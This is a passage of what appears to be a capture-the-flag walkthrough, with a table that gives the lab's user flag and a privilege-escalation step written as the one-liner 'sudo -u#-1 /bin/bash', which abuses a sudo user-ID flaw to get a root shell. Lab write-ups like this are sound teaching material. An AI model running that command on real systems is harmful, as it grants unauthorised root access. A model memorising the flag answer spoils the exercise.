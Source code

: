   <img src="./images/ssh_flag.png" alt="SSH FLAG" width="400"/>
</p>

| #  | Question                         | Answer                              |
|----|----------------------------------|-------------------------------------|
| 9  | What is the user flag?           | `b03d975e8c92a7c04146cfa7a5a313c7`  |
| 10 | What is the incident of the photo called? |                                 |

---

## ⬆️ Privilege Escalation Task - 4

```bash
sudo -u#-1 /bin/bash
```

<p align="center">